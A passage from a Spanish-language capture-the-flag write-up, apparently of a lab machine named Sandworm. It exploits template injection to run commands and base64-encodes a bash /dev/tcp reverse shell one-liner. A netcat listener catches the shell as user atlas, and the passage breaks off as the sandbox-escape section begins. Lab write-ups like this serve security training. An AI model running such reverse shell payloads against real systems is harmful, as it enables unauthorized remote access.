 ![ssti command id](ssa-ssti-id.png)

Vemos que si funcionó y que somos el usuario `atlas`.

![ssti command id response](ssa-ssti-id-res.png)

Es dificil leer y ejecutar comandos largos o que tengan muchos caracteres especiales, por lo que lo mejor es encodear en `base64` el payload y probar los más cortos. Tratar de leer la `id_rsa` no será posible.

```bash
$ echo "bash -i >& /dev/tcp/10.10.14.176/443 0>&1" -n | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzYvNDQzIDA+JjEgLW4K
```

Generamos las nuevas claves y la firma con el payload para enviarnos una **reverse shell.**

![ssti command reverse shell](ssa-ssti-revshell.png)

Nos ponemos en escucha en el puerto al cual nos enviamos la **reverse shell**.

```bash
$ nc -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.218.
Ncat: Connection from 10.10.11.218:58168.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
atlas@sandworm:/var/www/html/SSA$
```

### Escapar del Sandbox
Ya estamos en la máquina pero tenemos un problema, no podemos ejecutar varios comandos, estamos atrapados.

```bash
atlas@sandworm:/$ uname -a
uname -a
Could not find command-not-found database. Run 'sudo apt update' to populate it.
uname: command not found
atlas@sandworm:/$ hostname -I
hostname -I
Could not find command-not-found database. Run 'sudo apt update' to populate it.
hostname: command not found
atlas@sandworm:/var/www/html/SSA$
```

Explorando vemos que en el directorio `/home` de el usuario con el que estamos, `atlas`, hay un archivo `.json`.
